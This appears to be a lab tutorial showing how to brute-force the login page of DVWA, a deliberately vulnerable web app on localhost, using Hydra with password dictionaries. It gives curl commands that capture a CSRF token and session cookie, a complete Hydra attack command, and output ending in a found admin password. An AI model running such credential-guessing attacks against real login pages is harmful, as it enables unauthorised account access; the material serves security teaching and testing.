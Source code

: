 There are typically two types of brute-force techniques. One that is truly brute-force and tests every possible username and password combination, which is a lengthy and complex process. Another that is based on dictionaries, which tests only the combinations that are contained in them. This second approach is the one that will be used here.

For that we'll use dictionaries of passwords that we can find with some ease online. You can for example access the [following repository on GitHub](https://github.com/danielmiessler/SecLists/tree/master/Passwords) and check a huge collection of passwords and usernames that can be used to then run tests using dictionaries.

## Using Hydra to Brute Force

In this particular case we are going to use the Hydra tool to try and break access control on this DVWA page.
These first two lines serve to establish the access environment for the Hydra tool.

    CSRF=$(curl -s -c dvwa.cookie "127.0.0.1/dvwa/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)

    SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')

    curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "127.0.0.1/dvwa/login.php"

Then it is just to execute the Hydra tool, passing as parameters the usernames and password (in files) that we want to test.

    hydra  -L ./usernames.txt  -P ./passwords.txt -e ns  -F  -u  -t 1  -w 10  -v  -V  127.0.0.1  http-get-form  "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: security=low; PHPSESSID=${SESSIONID}:S=Welcome to the password protected area"

Note: according to the newest versions of Hydra, '`S`' and '`F`' parameters should be passed to the end of validation string. This is particularly relevant if you receive the following error "`[ERROR] no valid optional parameter type given: F`" or "`[ERROR] no valid optional parameter type given: S`".

And the result is as follows:

    Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2015-12-11 23:38:47
    [INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
    [DATA] max 1 task per 1 server, overall 64 tasks, 187 login tries (l:11/p:17), ~2 tries per task
    [DATA] attacking service http-get-form on port 80
    [VERBOSE] Resolving addresses ... done
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "root" - 1 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "admin" - 2 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "test" - pass "test" - 3 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "guest" - pass "guest" - 4 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "info" - pass "info" - 5 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "adm" - pass "adm" - 6 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "mysql" - pass "mysql" - 7 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "user" - pass "user" - 8 of 187 [child 0]
    .....
    [ATTEMPT] target 127.0.0.1 - login "info" - pass "monkey" - 137 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "adm" - pass "monkey" - 138 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "mysql" - pass "monkey" - 139 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "user" - pass "monkey" - 140 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "administrator" - pass "monkey" - 141 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "oracle" - pass "monkey" - 142 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "ftp" - pass "monkey" - 143 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "password" - 144 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "password" - 145 of 187 [child 0]
    [80][http-get-form] host: 127.0.0.1   login: admin   password: password
    [STATUS] attack finished for 127.0.0.1 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2015-12-11 23:38:48